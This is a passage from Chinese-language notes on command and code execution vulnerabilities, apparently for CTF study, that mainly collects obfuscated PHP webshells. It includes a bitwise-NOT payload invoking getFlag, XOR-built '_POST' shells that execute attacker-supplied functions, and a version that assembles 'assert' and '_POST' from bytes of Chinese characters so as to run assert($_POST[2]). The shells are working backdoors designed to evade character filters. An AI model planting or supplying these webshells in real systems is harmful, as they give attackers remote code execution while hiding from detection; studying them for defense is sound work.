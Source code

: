 ```````
![image-20240228170521372](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170521372.png)
也可以使用取反的方式
对getFlag进行取反得到`$_=~%98%9A%8B%B9%93%9E%98;$_();`
webshell为
![image-20240228170527292](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170527292.png)

#### webshell汇总
webshell1
```php
<?php
@$_++; //$_=NULL=0  $_++=1
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/"); //_POST
${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```
![image-20240228170533715](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170533715.png)
也可以节约长度，将webshell精简

```php
<?php
@$_++;
$__='#./|{'^'|~`//';
${$__}[!$_](${$__}[$_]);
?>
```
webshell2
中文编码在截取部分之后可以得到英文字符
```php
php > echo ~('瞰'[1]);
a
php > echo ~('和'[1]);
s
php > echo ~('和'[1]);
s
php > echo ~('的'[1]);
e
php > echo ~('半'[1]);
r
php > echo ~('始'[1]);
t
```
webshell如下
```php
<?php
$__=('>'>'<')+('>'>'<'); //True+True=2;$__=2
$_=$__/$__; //$_=2/2=1
$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});
// 得到assert
$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});
// 得到_POST
$_=$$_____;
// 得到$_POST数组
$____($_[$__]);
// 相当于执行了assert($_POST[2])
?>

```
```````